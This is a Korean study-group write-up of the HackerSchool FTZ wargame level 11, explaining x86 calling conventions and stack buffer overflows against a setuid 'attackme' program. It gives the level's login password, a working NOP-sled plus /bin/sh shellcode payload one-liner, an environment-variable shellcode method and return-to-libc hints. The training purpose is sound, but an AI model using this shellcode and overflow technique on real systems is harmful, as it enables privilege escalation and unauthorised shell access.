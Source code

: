 # 2. Calling Convention
## Calling Convention?

스터디시간에 사용한 ppt를 업로드했으니, 참고해주시길 바랍니다.  
함수 호출시, 인자들이 어떻게 전달이되고 stack memory는 어떻게 바뀌는지 설명해놨습니다.  

## HackerSchool level 11

```
id: level11
password: what!@#$?
```

```c
#include <stdio.h>
#include <stdlib.h>
 
int main( int argc, char *argv[] )
{
	char str[256];

 	setreuid( 3092, 3092 );
	strcpy( str, argv[1] );
	printf( str );
}
```
level11에 있는 attackme의 코드다. strcpy를 사용하는걸 보니 bof가 터진다.  
우리의 목적은 shell을 따는 것이 목적이므로, 프로그램의 실행흐름을 바꿔서 쉘이 실행되도록 해보자.  
지금 현재 bof로 인해 stack에 들어있는 값을 조작할 수 있는 환경이 주어졌는데, 프로그램의 실행흐름을 바꾸기 위해서는 stack에 저장되어있는 return address를 변조시키면 된다.  
calling convention을 알고있다면 return address가 저장되어있는 곳의 주소값은 ```ebp+4```라는 것을 알 수 있다.  
따라서 buffer, 즉, str의 주소값을 알아낸다면 return address를 조작할 수 있게 된다. 그렇다면 어떻게 공격을 해야할까?  

### Method 1 (Using nop sled technique & shellcode)

shell을 실행시켜주는 code를 shellcode라고 한다.  
buffer에 shellcode를 넣어놓은 후, return address를 buffer의 주소값으로 설정하면 함수 종료시 shellcode가 저장되어있는 주소로 점프를 하면 shellcode가 실행이 되면서 shell이 띄워질 것이다.  
그러나 프로그램을 실행시킬때마다 stack의 시작주소가 바뀌는 ASLR(Adress Space Layout Randomization)이 걸려있기 때문에 buffer의 주소값도 매번 바뀌게 되어 shellcode가 제대로 실행하지 않게 된다.  
따라서 buffer의 주소값이 바뀌더라도 최대한 shellcode 실행 성공률을 높이기 위해 shellcode앞에 nop(no operation; 0x90)을 채워넣어서 정확하게 shellcode 처음부분에 떨어지지 않더라도 nop으로 채워져있는 곳에 떨어지게 된다면 nop을 따라서 쭉 내려오다가 결국 shellcode가 실행이 되게끔 만든다.  

```c
#include <stdlib.h>
#include <sys/mman.h>
#include <string.h>

void (*fp)();

int main(int argc, char** argv)
{
        void* memory = mmap(NULL, 100, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

        strcpy(memory, argv[1]);
        fp = memory;
        fp();
        return 0;
}
```

위는 shellcode가 제대로 동작하는 shellcode인지 확인하기위해서 rwx메모리영역을 임의로 mapping한 후에 shellcode를 적고 실행하는 코드이다.  

```sh
# \x90 * 200 = nop sled
# \x31...\x80 = shellcode
# A * 43 = padding
# \xd0\xea\xff\xbf = return address = address of str(물론 ASLR로 인해 주소가 맞지 않다. 그렇기 때문에 nop sled를 넣는 것이다.)
$ python -c "print('\x90'*200+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'+'A'*43+'\xd0\xea\xff\xbf')" > ./tmp/argument
$ ./attackme `cat ./tmp/argument`
```

### Method 2 (Using environment variable & shellcode)

shellcode를 stack에 저장하면 stack ASLR때문에 실행하기가 힘들어진다. 따라서 비교적 고정적인 곳에 shellcode를 저장하려고 한다. 바로 환경변수이다.  
환경변수는 프로그램에 종속되어있는 값이 아닌, 운영체제에 종속되어있는 값이기 때문에 모든 프로그램이 환경변수에 대해선 거의 같은 값을 공유하게 된다.  
아래와 같이 환경변수에 shellcode를 등록할 수 있다.
```shell
export shellcode=$(python -c "(shellcode)")
```

그리고 아래와 같이 환경변수의 주소값을 획득하는 프로그램을 만들 수 있다.
```c
// gcc -o shellcode shellcode.c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    int p = getenv("shellcode");
    printf("%p\n", p);

    return 0;
}
```

나온 값을 return address에 덮어씌워보자.

### Method 3 (Using Return to Library (RTL) techinique)

첫번째, 두번째 방법 모두 좀 불안정한 방법이다. 첫번째 방법같은경우, stack ASLR때문에 buffer의 주소값이 계속 바뀌고, 두번째 방법같은경우에도, 상황에 따라 살짝씩 달라지기 때문이다. (직접 해보면 알 수 있다. 안먹힐때가 많다.)  
세번째 방법으로 libc 라이브러리에있는 함수를 사용하는 방법이다. 다행히 라이브러리에는 ASLR이 걸려있지 않아서 프로그램을 여러번 실행하더라도 라이브러리가 동일한 메모리 공간에 mapping이 된다. 따라서 libc에있는 system함수를 찾아서 system함수의 주소값을 return address에 넣어주면 system함수가 실행이 될 것이다. 하지만 여기서는 system함수에 "/bin/sh"과 같은 인자를 넣어주어야 한다. 이것은 calling convention을 잘 생각해보면 충분히 전달해줄 수 있다.  
추가적인 힌트를 더 드리자면, "/bin/sh" 문자열은 이미 libc 라이브러리에 존재한다.  

[블로그](https://mysigyeong.github.io/CTF/ftz/level11.html)에 payload가 잘 정리되어있습니다. 여기를 참고해주세요.